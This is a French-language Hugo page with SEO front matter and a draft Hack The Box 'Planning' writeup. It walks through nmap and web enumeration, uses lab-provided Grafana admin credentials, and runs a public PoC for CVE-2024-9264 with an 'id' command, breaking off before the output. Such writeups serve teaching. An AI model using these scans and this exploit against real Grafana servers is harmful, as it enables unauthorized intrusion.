








---
# === Archetype writeups – v1 (stable) ===
# === Archetype: writeups (Page Bundle) ===
# Copié vers content/writeups/<nom_ctf>/index.md

# H1 SEO (via title, pas dans le markdown)
title: "Planning — HTB Easy Writeup & Walkthrough"
linkTitle: "Planning"
slug: "planning"
date: 2026-05-18T10:45:00+02:00
#lastmod: 2026-05-18T10:45:00+02:00
draft: true

# --- PaperMod / navigation ---
type: "writeups"
summary: "Writeup de Planning (HTB Easy) : exploitation Grafana, récupération d’identifiants et escalade via Crontab UI."
description: "Writeup de Planning (HTB Easy) : exploitation Grafana CVE-2024-9264, accès SSH enzo et escalade root via Crontab UI."
tags: ["Hack The Box","HTB Easy","linux-privesc","Grafana","CVE-2024-9264","RCE","SSH","Credential Reuse","Cron","sudo"]
categories: ["Mes writeups"]

# Ajouter ensuite uniquement des tags techniques réellement utilisés dans le writeup,
# par exemple :
# - prise de pied : "Web", "SSH", "FTP"
# - faille : "XSS", "LFI", "RCE", "Path Traversal", "Shellshock"
# - techno / produit : "Grafana", "Chamilo", "CMS Made Simple", "js2py"
# - CVE : "CVE-2021-43798"
# - pivot : "Credential Reuse"
# - privesc spécifique : "sudo", "Docker", "Cron", "ACL", "PATH Hijacking", "tmux", "npbackup", "pspy64"

# --- TOC & mise en page ---
ShowToc: true
TocOpen: true
# toc_droite: 1

# --- Cover / images (Page Bundle) ---
cover:
  image: "image.png"
  alt: "Machine Planning HTB Easy exploitant Grafana CVE-2024-9264 puis une interface Crontab UI pour obtenir root"
  caption: ""
  relative: true
  hidden: false
  hiddenInList: false
  hiddenInSingle: false

# --- Paramètres CTF (placeholders à éditer après création) ---
ctf:
  platform: "Hack The Box"
  machine: "Planning"
  difficulty: "Easy"
  target_ip: "10.129.x.x"
  skills: ["Enumeration","Web","Privilege Escalation"]
  time_spent: "2h"
  # vpn_ip: "10.10.14.xx"
  # notes: "Points d'attention…"

# --- Options diverses ---
# weight: 10
# ShowBreadCrumbs: true
# ShowPostNavLinks: true

# --- SEO Reminders (à compléter après création) ---
# 1) Titre :
#    - Doit contenir : Nom Machine + HTB Easy + Writeup
# 2) Description :
#    - Résumé 130–160 caractères
#    - Style “Mix Parfait” : pédagogique + technique
#    - Exemple : "Writeup de <machine> (HTB Easy) : énumération claire, analyse de la vulnérabilité et escalade structurée."
# 3) ALT (image de couverture) :
#    - Mixer vulnérabilité + pédagogie + progression
#    - Exemple : "Machine <machine> HTB Easy vulnérable à <faille>, expliquée étape par étape jusqu'à l'escalade."
# 4) Tags :
#    - Toujours ["Easy"]
#    - Ajouter d'autres selon le thème : ["web","shellshock","heartbleed","enum"]
# 5) Structure :
#    - H1 = titre
#    - Description = meta description + preview social
#    - ALT = SEO image + accessibilité

# --- SEO CHECKLIST (à valider avant publication) ---

# [ ] 1) Titre (title + H1)
#     - Contient : Nom Machine + HTB Easy + Writeup
#     - Unique sur le site
#     - Lisible hors contexte HTB

# [ ] 2) Description (meta)
#     - 130–160 caractères
#     - Pas générique
#     - Ton pédagogique + technique
#     - Exemple :
#       "Writeup de <machine> (HTB Easy) : énumération claire,
#        compréhension de la vulnérabilité et escalade structurée."

# [ ] 3) Image de couverture
#     - Présente (ou fallback)
#     - Nom explicite
#     - Dimensions cohérentes

# [ ] 4) ALT de l’image
#     - Décrit la machine + l’approche
#     - Pédagogique (pas juste technique)
#     - Exemple :
#       "Machine <machine> HTB Easy exploitée étape par étape,
#        de l’énumération à l’escalade de privilèges."

# [ ] 5) Tags
#     - Toujours inclure la difficulté (ex: "Easy")
#     - Ajouter uniquement des tags techniques réels

# [ ] 6) Structure du contenu
#     - Un seul H1
#     - Sections claires et hiérarchisées
#     - Pas de sections SEO artificielles

---

<!-- ====================================================================
Tableau d'infos (modèle) — Remplacer les valeurs entre <...> après création.
Aucun templating Hugo dans le corps, pour éviter les erreurs d'archetype.
====================================================================
| Champ          | Valeur |
|----------------|--------|
| **Plateforme** | <Hack The Box> |
| **Machine**    | <Planning> |
| **Difficulté** | <Easy / Medium / Hard> |
| **Cible**      | <10.129.x.x> |
| **Durée**      | <2h> |
| **Compétences**| <Enumeration, Web, Privilege Escalation> |

---
-->
## Introduction

La machine **Planning** de Hack The Box, classée **HTB Easy**, propose un scénario réaliste mêlant exploitation de Grafana, exécution dans un conteneur Docker, récupération d’identifiants sensibles et escalade de privilèges via une interface de gestion de tâches cron accessible uniquement en local.

Dans ce writeup, tu exploites la vulnérabilité **CVE-2024-9264** affectant Grafana 11.0.0 afin d’obtenir une première exécution de commandes sur le serveur. Cette prise de pied permet ensuite d’accéder à un conteneur Docker exposant plusieurs variables d’environnement sensibles, puis de récupérer des identifiants réutilisables sur le système.

L’énumération locale révèle également un service web accessible uniquement sur `127.0.0.1:8000`, utilisé pour administrer des tâches planifiées. Après analyse de son fonctionnement, tu détournes cette interface afin d’ajouter une règle `sudoers` donnant un accès root complet à l’utilisateur compromis.

Ce writeup détaille chaque étape de l’exploitation, depuis l’énumération initiale jusqu’à l’obtention du shell root, avec une approche pédagogique et reproductible adaptée aux débutants en CTF.

---

## Énumération



### Scan initial

Le scan TCP complet (`scans_nmap/full_tcp_scan.txt`) montre les ports ouverts suivants :

```bash
# Nmap 7.99 scan initiated [date] as: /usr/lib/nmap/nmap --privileged -Pn -p- --min-rate 5000 -T4 -oN scans_nmap/full_tcp_scan.txt planning.htb
Nmap scan report for planning.htb (10.129.x.x)
Host is up (0.010s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

# Nmap done at [date] -- 1 IP address (1 host up) scanned in 6.76 seconds
```

### Scan FTP/SMB (si services détectés)

Après le scan initial, le script enchaîne automatiquement avec une phase d’énumération ciblée **FTP/SMB** si l’un des services suivants est détecté :

- **FTP** sur le port **21**
- **SMB** sur le port **139** et/ou **445**

Les résultats sont enregistrés dans (`scans_nmap/enum_ftp_smb_scan.txt`) :

```bash
# mon-nmap — ENUM FTP / SMB
# Target : planning.htb
# Date   : [date]

Aucun service FTP (21) ni SMB (139/445) détecté.
Ports ouverts détectés : 22,80
```


### Scan agressif

Le script enchaîne ensuite automatiquement sur un scan agressif orienté vulnérabilités.

Ce scan fournit des informations détaillées sur les services et versions détectés.

Les résultats sont enregistrés dans (`scans_nmap/aggressive_vuln_scan.txt`) :

```bash
[+] Scan agressif orienté vulnérabilités (CTF-perfect LEGACY) pour planning.htb
[+] Commande utilisée :
    nmap -Pn -A -sV -p"22,80" --script="(http-vuln-* or http-shellshock or ssl-heartbleed) and not (http-vuln-cve2017-1001000 or http-sql-injection or ssl-cert or sslv2 or ssl-dh-params)" --script-timeout=30s -T4 "planning.htb"

# Nmap 7.99 scan initiated [date] as: /usr/lib/nmap/nmap --privileged -Pn -A -sV -p22,80 "--script=(http-vuln-* or http-shellshock or ssl-heartbleed) and not (http-vuln-cve2017-1001000 or http-sql-injection or ssl-cert or sslv2 or ssl-dh-params)" --script-timeout=30s -T4 -oN scans_nmap/aggressive_vuln_scan_raw.txt planning.htb
Nmap scan report for planning.htb (10.129.x.x)
Host is up (0.0083s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.11 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.24.0 (Ubuntu)
|_http-server-header: nginx/1.24.0 (Ubuntu)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.19, Linux 5.0 - 5.14
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 22/tcp)
HOP RTT      ADDRESS
1   55.14 ms 10.10.x.x
2   7.48 ms  planning.htb (10.129.x.x)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at [date] -- 1 IP address (1 host up) scanned in 14.04 seconds
```


### Scan ciblé CMS

Le script exécute ensuite un scan ciblé CMS (scans_nmap/cms_vuln_scan.txt).

```bash
# Nmap 7.99 scan initiated [date] as: /usr/lib/nmap/nmap --privileged -Pn -sV -p22,80 --script=http-wordpress-enum,http-wordpress-brute,http-wordpress-users,http-drupal-enum,http-drupal-enum-users,http-joomla-brute,http-generator,http-robots.txt,http-title,http-headers,http-methods,http-enum,http-devframework,http-cakephp-version,http-php-version,http-config-backup,http-backup-finder,http-sitemap-generator --script-timeout=30s -T4 -oN scans_nmap/cms_vuln_scan.txt planning.htb
Nmap scan report for planning.htb (10.129.x.x)
Host is up (0.014s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.11 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.24.0 (Ubuntu)
|_http-title: Edukate - Online Education Website
| http-methods: 
|_  Supported Methods: GET HEAD POST
| http-sitemap-generator: 
|   Directory structure:
|     /
|       Other: 1; php: 4
|     /css/
|       css: 1
|     /img/
|       jpg: 9
|     /js/
|       js: 1
|     /lib/counterup/
|       js: 1
|     /lib/easing/
|       js: 1
|     /lib/owlcarousel/
|       js: 1
|     /lib/waypoints/
|       js: 1
|   Longest directory structure:
|     Depth: 2
|     Dir: /lib/owlcarousel/
|   Total files found (by extension):
|_    Other: 1; css: 1; jpg: 9; js: 5; php: 4
| http-headers: 
|   Server: nginx/1.24.0 (Ubuntu)
|   Date: Mon, 18 May 2026 08:59:41 GMT
|   Content-Type: text/html; charset=UTF-8
|   Connection: close
|   
|_  (Request type: HEAD)
|_http-server-header: nginx/1.24.0 (Ubuntu)
|_http-devframework: Couldn't determine the underlying framework or CMS. Try increasing 'httpspider.maxpagecount' value to spider more pages.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at [date] -- 1 IP address (1 host up) scanned in 37.52 seconds
```


### Scan UDP rapide

Le script lance également un scan UDP rapide afin de détecter d’éventuels services supplémentaires (`scans_nmap/udp_vuln_scan.txt`).

```bash
# Nmap 7.99 scan initiated [date] as: /usr/lib/nmap/nmap --privileged -n -Pn -sU --top-ports 20 -T4 -oN scans_nmap/udp_vuln_scan.txt planning.htb
Nmap scan report for planning.htb (10.129.x.x)
Host is up (0.011s latency).

PORT      STATE         SERVICE
53/udp    closed        domain
67/udp    closed        dhcps
68/udp    open|filtered dhcpc
69/udp    closed        tftp
123/udp   open|filtered ntp
135/udp   closed        msrpc
137/udp   closed        netbios-ns
138/udp   closed        netbios-dgm
139/udp   closed        netbios-ssn
161/udp   open|filtered snmp
162/udp   open|filtered snmptrap
445/udp   open|filtered microsoft-ds
500/udp   open|filtered isakmp
514/udp   closed        syslog
520/udp   closed        route
631/udp   open|filtered ipp
1434/udp  closed        ms-sql-m
1900/udp  closed        upnp
4500/udp  open|filtered nat-t-ike
49152/udp closed        unknown

# Nmap done at [date] -- 1 IP address (1 host up) scanned in 9.76 seconds
```


### Énumération des chemins web
Pour la découverte des chemins web, tu peux utiliser le script dédié 

```bash
mon-recoweb planning.htb

# Résultats dans le répertoire scans_recoweb/
#  - scans_recoweb/RESULTS_SUMMARY.txt     ← vue d’ensemble des découvertes
#  - scans_recoweb/dirb.log
#  - scans_recoweb/dirb_hits.txt
#  - scans_recoweb/ffuf_dirs.txt
#  - scans_recoweb/ffuf_dirs_hits.txt
#  - scans_recoweb/ffuf_files.txt
#  - scans_recoweb/ffuf_files_hits.txt
#  - scans_recoweb/ffuf_dirs.json
#  - scans_recoweb/ffuf_files.json
```

Le fichier `RESULTS_SUMMARY.txt`  regroupe les chemins découverts, sans parcourir l’ensemble des logs générés.

```bash
===== mon-recoweb — RÉSUMÉ DES RÉSULTATS =====
Commande principale : /home/kali/.local/bin/mes-scripts/mon-recoweb
Script              : mon-recoweb v2.2.3

Cible        : planning.htb
Périmètre    : /
Date début   : [date]

Commandes exécutées (exactes) :

[dirb — découverte initiale]
dirb http://planning.htb/ /usr/share/wordlists/dirb/common.txt -r | tee scans_recoweb/planning.htb/dirb.log

[ffuf — énumération des répertoires]
ffuf -u http://planning.htb/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt -t 30 -timeout 10 -fc 404 -of json -o scans_recoweb/planning.htb/ffuf_dirs.json 2>&1 | tee scans_recoweb/planning.htb/ffuf_dirs.log

[ffuf — énumération des fichiers]
ffuf -u http://planning.htb/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-files.txt -t 30 -timeout 10 -fc 404 -of json -o scans_recoweb/planning.htb/ffuf_files.json 2>&1 | tee scans_recoweb/planning.htb/ffuf_files.log

Processus de génération des résultats :
- Les sorties JSON produites par ffuf constituent la source de vérité.
- Les entrées pertinentes sont extraites via jq (URL, code HTTP, taille de réponse).
- Les réponses assimilables à des soft-404 sont filtrées par comparaison des tailles et des codes HTTP.
- Les URLs finales sont reconstruites à partir du périmètre scanné (racine du site ou sous-répertoire ciblé).
- Les résultats sont normalisés sous la forme :
    http://cible/chemin (CODE:xxx|SIZE:yyy)
- Les chemins sont ensuite classés par type :
    • répertoires (/chemin/)
    • fichiers (/chemin.ext)
- Le fichier RESULTS_SUMMARY.txt est généré par agrégation finale, sans retraitement manuel,
  garantissant la reproductibilité complète du scan.

----------------------------------------------------

=== Résultat global (agrégé) ===

http://planning.htb/about.php (CODE:200|SIZE:12727)
http://planning.htb/. (CODE:200|SIZE:23914)
http://planning.htb/contact.php (CODE:200|SIZE:10632)
http://planning.htb/css/
http://planning.htb/css/ (CODE:301|SIZE:178)
http://planning.htb/detail.php (CODE:200|SIZE:13006)
http://planning.htb/img/
http://planning.htb/img/ (CODE:301|SIZE:178)
http://planning.htb/index.php (CODE:200|SIZE:23914)
http://planning.htb/js/
http://planning.htb/js/ (CODE:301|SIZE:178)
http://planning.htb/lib/
http://planning.htb/lib/ (CODE:301|SIZE:178)

=== Détails par outil ===

[DIRB]
http://planning.htb/css/
http://planning.htb/img/
http://planning.htb/index.php (CODE:200|SIZE:23914)
http://planning.htb/js/
http://planning.htb/lib/

[FFUF — DIRECTORIES]
http://planning.htb/css/ (CODE:301|SIZE:178)
http://planning.htb/img/ (CODE:301|SIZE:178)
http://planning.htb/js/ (CODE:301|SIZE:178)
http://planning.htb/lib/ (CODE:301|SIZE:178)

[FFUF — FILES]
http://planning.htb/about.php (CODE:200|SIZE:12727)
http://planning.htb/. (CODE:200|SIZE:23914)
http://planning.htb/contact.php (CODE:200|SIZE:10632)
http://planning.htb/detail.php (CODE:200|SIZE:13006)
http://planning.htb/index.php (CODE:200|SIZE:23914)
```


### Recherche de vhosts

Enfin, tu peux tester la présence de vhosts à l’aide du script .

```bash
=== mon-subdomains planning.htb START ===
Script       : mon-subdomains
Version      : mon-subdomains 2.0.1
Date         : [date]
Domaine      : planning.htb
IP           : 10.129.x.x
Mode         : large
Master       : /usr/share/wordlists/htb-dns-vh-5000.txt
Codes        : 200,301,302,401,403  (strict=1)

VHOST totaux : 1
  - grafana.planning.htb

--- Détails par port ---
Port 80 (http)
  Baseline#1: code=301 size=178 words=12 (Host=eiblbu7ysb.planning.htb)
  Baseline#2: code=301 size=178 words=12 (Host=kjntdo3b9p.planning.htb)
  Baseline#3: code=301 size=178 words=12 (Host=vw87kigp1d.planning.htb)
  After-redirect#1: code=200 size=23914 words=1623
  After-redirect#2: code=200 size=23914 words=1623
  After-redirect#3: code=200 size=23914 words=1623
  VHOST (1)
    - grafana.planning.htb


=== mon-subdomains planning.htb END ===
```


## Prise pied

L’énumération a mis en évidence un sous-domaine Grafana exposé sur `grafana.planning.htb`.

La page de connexion confirme l’utilisation de **Grafana v11.0.0**.




Hack The Box fournit également les identifiants suivants :



```bash
admin:0D5oT70Fq13EvB5r
```

Ils te permettent d’accéder à l’interface Grafana :




Une recherche rapide sur les vulnérabilités affectant Grafana 11.0.0 mène immédiatement vers **CVE-2024-9264**.

Cette vulnérabilité post-authentification offre notamment deux possibilités intéressantes :

- la lecture de fichiers arbitraires ;
- l’exécution de commandes via les fonctionnalités DuckDB intégrées à Grafana.

Tu t’appuies ensuite sur le PoC public [nollium/CVE-2024-9264](nollium/CVE-2024-9264).

### Validation de l’exploitation CVE-2024-9264

Tu clones le dépôt du PoC sur ta machine Kali :

```bash
git clone https://github.com/nollium/CVE-2024-9264.git
cd CVE-2024-9264
```


En suivant le README du projet, tu installes ensuite les dépendances Python nécessaires en t’appuyant sur la recette  :

```bash
pip install -r requirements.txt --break-system-packages
```

Tu affiches ensuite l’aide du script afin de vérifier les fonctionnalités disponibles :

```bash
python3 CVE-2024-9264.py -h
Usage: CVE-2024-9264.py [-h] [-u USER] [-p PASSWORD] [-f FILE] [-q QUERY] [-c COMMAND] url

Exploit for Grafana post-auth file-read and RCE (CVE-2024-9264).

Positional Arguments:
  url                   URL of the Grafana instance to exploit

Options:
  -h, --help            show this help message and exit
  -u, --user USER       Username to log in as, defaults to 'admin'
  -p, --password PASSWORD
                        Password used to log in, defaults to 'admin'
  -f, --file FILE       File to read on the server, defaults to '/etc/passwd'
  -q, --query QUERY     Optional query to run instead of reading a file
  -c, --command COMMAND
                        Optional command to execute on the server

```

Le script permet notamment :

- de lire un fichier avec `-f` ;
- d’exécuter une commande avec `-c`.

Tu commences par tester une commande simple :

```bash
python3 CVE-2024-9264.py \
-u admin \
-p '0D5oT70Fq13EvB5r' \
-c 'bash -c id' \
http://grafana.planning.htb
```

Résultat :

```bash
